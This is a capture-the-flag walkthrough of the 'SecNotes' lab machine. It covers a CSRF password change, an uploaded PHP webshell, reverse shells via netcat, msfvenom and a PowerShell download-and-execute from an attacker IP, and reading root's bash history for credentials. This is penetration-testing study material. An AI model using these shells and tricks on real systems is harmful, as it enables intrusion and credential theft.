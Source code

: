 ## SecNotes

Difficulty: Medium

### User Flag

```
rustscan -a 10.10.10.97 --ulimit 5000 -- -A -sV -sC -oN nmap.txt -Pn
```

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/4327c940-7d84-48d9-a832-ce699eeb7e1f)

<br>

On port 80, we have a login page. On 8808 there is only an empty Microsoft IIS page.

![login](https://github.com/b1d0ws/OSCP/assets/58514930/d1759649-7c37-441d-8497-3d41a6a9926f)

![port8808](https://github.com/b1d0ws/OSCP/assets/58514930/27a3b6b8-67f0-45f6-8b03-f57a14538858)

<br>

Creating a user, we can enumerate a username on home.php called tyler.

![homePHP](https://github.com/b1d0ws/OSCP/assets/58514930/2105039e-941f-43bc-9437-6a6f43d8fe45)

<br>

Testing features, we can observe that change password request doesn't have CSRF protection.  

On contact feature, we can put a link to trick tyler to access it. Change request method from change password to GET and change his password.

```
http://10.10.10.97/change_pass.php?password=bido333&confirm_password=bido333&submit=submit
```

![changePassPost](https://github.com/b1d0ws/OSCP/assets/58514930/e76e346b-3530-43cc-a2f1-7c4edc07c602)

![changePassGET](https://github.com/b1d0ws/OSCP/assets/58514930/6391ea42-4ee7-49c6-aac8-6892f7ff0c5f)

![contactCSRF](https://github.com/b1d0ws/OSCP/assets/58514930/db29cd1f-6462-4161-8673-24afd254af82)

<br>

Logging as tyler, we find smb credentials. On smb, we can upload a webshell on port 8808 and get a reverse shell with nc.

```
smbclient //secnotes.htb/new-site -U "tyler"

# One way to get shell
msfvenom -p php/reverse_php LHOST=10.10.14.21 LPORT=3333 -f raw > shell.php
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21/Invoke-PowerShellTcp.ps1')

# Other way

vi webshell.php
<?php system($_REQUEST['cmd']) ?>

# We need to use 64, on 32 bits the command "bash" doesn't work
put nc64.exe

http://10.10.10.97:8808/webshell.php?cmd=nc64.exe 10.10.14.21 9001 -e powershell

# We can use Invoke-PowerShellTcp as well

http://10.10.10.97:8808/webshell.php?cmd=powershell -ep bypass .\Invoke-PowerShellTcp.ps1
```

![tylerNotes](https://github.com/b1d0ws/OSCP/assets/58514930/659a6dba-8be6-41aa-a8c5-10de1468093a)

![smbclientWebshell](https://github.com/b1d0ws/OSCP/assets/58514930/0e1b02eb-a49b-4b8e-8b10-b246b367583b)

![revShell](https://github.com/b1d0ws/OSCP/assets/58514930/36652ceb-8ff0-4d24-a98d-3fe41b1c4268)

<br>

### Root Flag

Inside tyler desktop, there is bash.lnk. This give us a hint that maybe bash is available on this Windows machine.

![tylerDesktop](https://github.com/b1d0ws/OSCP/assets/58514930/172aa9bc-48d4-418c-af45-ec7636c7aa1a)

<br>

Using bash binary, we can navigate on Linux machine. Inside root home directory, we can find credentials inside his bash_history and use psexec to get as shell with it.

```
bash
cat /root/.bash_history
```

![bashHistory](https://github.com/b1d0ws/OSCP/assets/58514930/ed6557a1-8dc4-4f40-90f7-8d7b7928e8cd)

![adminShell](https://github.com/b1d0ws/OSCP/assets/58514930/66338ddd-a515-42c5-87da-42475191527e)

